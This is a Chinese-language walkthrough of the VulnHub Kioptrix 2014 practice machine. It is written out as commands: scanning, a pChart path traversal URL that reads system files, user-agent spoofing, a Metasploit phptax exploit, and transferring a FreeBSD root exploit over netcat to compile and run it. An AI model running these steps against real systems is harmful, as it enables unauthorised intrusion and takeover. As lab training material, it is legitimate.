





# Kioptrix5-WalkThrough

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**靶机地址**
- https://www.vulnhub.com/entry/kioptrix-2014-5,62/

**Description**

As usual, this vulnerable machine is targeted at the beginner. It's not meant for the seasoned pentester or security geek that's been at this sort of stuff for 10 years. Everyone needs a place to start and all I want to do is help in that regard.

Also, before powering on the VM I suggest you remove the network card and re-add it. For some oddball reason it doesn't get its IP (well I do kinda know why but don't want to give any details away). So just add the VM to your virtualization software, remove and then add a network card. Set it to bridge mode and you should be good to go.

This was created using ESX 5.0 and tested on Fusion, but shouldn't be much of a problem on other platforms.

Kioptrix VM 2014 download 825Megs

MD5 (kiop2014.tar.bz2) = 1f802308f7f9f52a7a0d973fbda22c0a

SHA1 (kiop2014.tar.bz2) = 116eb311b91b28731855575a9157043666230432

Waist line 32"

p.s.: Don't forget to read my disclaimer...

Works out of the box with VMware workstation 10, player 6, fusion 6 (Can edit the vmx file to force a downgrade for an older version - see 'kiop2014_fix.zip'). Has been known to work with Virtualbox 4.3 or higher... First thing: try setting it to a x64 machine. Then check: http://download.vulnhub.com/kioptrix/kiop2014_fix.zip.

**知识点**
- LFI
- 自定义 User-agent
- phptax 漏洞利用
- freebsd 提权

**实验环境**

`环境仅供参考`

- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- kali : NAT 模式,192.168.141.134
- 靶机 : NAT 模式

---

# 前期-信息收集

开始进行 IP 探活

```bash
nmap -sP 192.168.141.0/24
```


排除法,去掉自己、宿主机、网关, `192.168.141.147` 就是目标了

扫描开放端口
```bash
nmap -T5 -A -v -p- 192.168.141.147
```


一个 SSH，2个 web,从 web 先入手


看来都需要爆破目录了
```
dirb http://192.168.141.147
dirb http://192.168.141.147:8080
```





啥都没有,再看看 index.html


有个 pChart2.1.3,访问看看



---

# 中期-漏洞利用

有点意思,找找它的漏洞
```
searchsploit -w pChart
```


访问 https://www.exploit-db.com/exploits/31173,发现有个目录遍历可以利用下

`http://192.168.141.147/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fetc/passwd`


尝试使用这个漏洞挖掘更多的信息

爆了半天，没爆出 httpd 配置文件，google 了一下发现别人爆出来是 `http://192.168.141.147/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fusr/local/etc/apache22/httpd.conf`

想不出来这个 apache22 是怎么爆出来的，难不成是看 apache 版本号?


看了下 httpd.conf 的内容,发现 8080 只允许 user-agent 为 Mozilla/4.0 Mozilla4_browser 才能访问


firefox 可以自定义 user-agent

访问 about:config,搜索 general.useragent.override


输入 `Mozilla/4.0 Mozilla4_browser`,再访问 192.168.141.147:8080


ok,有东西了,点进去看看



看起来这东西有一定年头了,搜了下这是个叫 phptax 的纳税工具,MSF 有个可利用的模块
```
msfconsole
use exploit/multi/http/phptax_exec
options
set RHOSTS 192.168.141.147
set RPORT 8080
run
```


下面尝试提权

---

# 后期-漏洞利用

查看一些基本信息
```bash
/bin/sh -i
uname -a
```



```
searchsploit -w freebsd 9.0
```


kali 访问 https://www.exploit-db.com/download/26368,下载 poc

kali 下载完启 HTTP
```bash
wget https://www.exploit-db.com/download/26368
mv 26368 poc.c
nc -lvp 1234 < poc.c
```

靶机下载 kali 上的 poc
```bash
cd /tmp
nc -nv 192.168.141.134 1234 > poc.c
gcc poc.c
ls
./a.out
```


提权成功,感谢 Kioptrix Team 制作的系列靶机
